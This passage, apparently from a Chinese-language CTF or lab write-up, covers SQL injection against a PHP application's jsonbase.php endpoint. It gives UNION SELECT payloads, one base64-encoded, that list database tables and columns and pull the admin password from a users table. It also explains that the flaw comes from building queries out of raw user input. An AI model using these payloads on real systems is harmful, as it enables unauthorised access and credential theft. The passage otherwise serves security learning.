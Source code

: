 如果没有users表，可以尝试不同的表名:
```json
{
  "id": 0,
  "keyword": "' UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema=database()-- -"
}
```

### 2.3 针对jsonbase.php的SQL注入攻击

因为jsonbase.php使用base64编码，我们需要先编码payload：

1. 编写SQL注入payload: `' UNION SELECT 1,2,password FROM users WHERE username='admin'-- -`
2. 使用base64编码这个payload: `JyBVTklPTiBTRUxFQ1QgMSwyLHBhc3N3b3JkIEZST00gdXNlcnMgV0hFUkUgdXNlcm5hbWU9J2FkbWluJy0tIC0=`
3. 构造JSON请求：
```json
{
  "id": 0,
  "keyword": "JyBVTklPTiBTRUxFQ1QgMSwyLHBhc3N3b3JkIEZST00gdXNlcnMgV0hFUkUgdXNlcm5hbWU9J2FkbWluJy0tIC0="
}
```

## 3. 实现原理

### 3.1 SQL注入原理

SQL注入漏洞的核心原理在于代码直接将用户输入拼接到SQL查询字符串中，没有进行适当的参数化或转义处理。当拼接用户输入到SQL语句时，输入中的特殊字符（如单引号、注释符等）可以改变原始SQL语句的结构和逻辑。

在我们找到的代码中，几乎所有与数据库交互的地方都存在这个问题：
1. 用户输入直接拼接到SQL语句中
2. 没有使用预处理语句（prepared statements）
3. 没有对输入进行适当的过滤或转义

### 3.2 查询数据库表结构

为了获取admin密码，我们首先需要了解数据库结构。可以使用以下payload：

```sql
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()-- -
```

这会返回数据库中的所有表名。

### 3.3 获取表列信息

确定包含用户信息的表后，可以获取表的列名：

```sql
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'-- -
```

### 3.4 获取admin密码
